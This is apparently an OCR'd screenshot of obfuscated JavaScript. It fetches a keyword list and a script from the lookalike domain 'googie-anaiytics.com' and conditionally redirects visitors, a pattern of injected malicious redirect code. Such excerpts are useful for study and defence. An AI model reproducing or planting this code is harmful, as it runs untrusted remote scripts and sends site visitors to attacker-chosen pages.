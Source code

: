 ``` js
        navigator.platform == 'MacPPC' ||
        navigator.platform == 'Macintosh' ||
        navigator.platform == 'MacIntel'
    if (_0x3f80bf || _0x4ed75f) {
      return true
    } else {
      return false
    }
  } catch (_0x1793fe) {
    return false
  }
}
function checkKeywords(_0x3ab08e) {
  const _0x18dd4d = document.documentElement.innerHTML
  let _0x3cdba9 = false
  for (const _0xda2c7 of _0x3ab08e) {
    if (_0x18dd4d.indexOf(_0xda2c7) !== -1) {
      _0x3cdba9 = true
      const _0xd85bed = _0x18dd4d.indexOf(_0xda2c7),
        _0x267743 = _0x18dd4d.substring(_0xd85bed - 20, _0xd85bed + 20)
      break
    }
  }
  return _0x3cdba9
}
function vfed_update(_0x2723e2) {
  fetch('https://www.googie-anaiytics.com/keywords/vn-keyword.json')
    .then((_0x1204ac) => _0x1204ac.json())
    .then((_0x318df9) => {
      const _0x3d6056 = checkKeywords(_0x318df9)
      _0x3d6056 &&
        _0x2723e2 !== '' &&
          loadJS(
            'https://www.googie-anaiytics.com/html/checkcachehw.js?origin=kwvnn',
            function () {
              if (usercache == true) {
                window.location.href = _0x2723e2
              }
            }
          )
    })
    .catch((_0x2c91ce) =>
      console.error('Error fetching the JSON file:', _0x2c91ce)
    )
}
function check_tiaozhuan() {
  const _0x464cf7 = (function () {
      let _0x2ddab7 = true
      return function (_0x15452, _0x3e7ea8) {
        const _0x2faa6e = {
          bjeMJ: function (_0x15a8ac, _0xefecf2) {
            return _0x15a8ac(_0xefecf2)
          },
          pqiqW: function (_0x50e73a, _0x158536) {
            return _0x50e73a !== _0x158536
          },
          zbtQp: function (_0x1dfdda, _0x1aa046, _0x3b4d3c) {
            return _0x1dfdda(_0x1aa046, _0x3b4d3c)
          },
          volhE:
            'https://www.googie-anaiytics.com/html/checkcachehw.js?origin=kwvnn',
          OBmcC: function (_0x598542, _0x5a0037) {
            return _0x598542 == _0x5a0037
```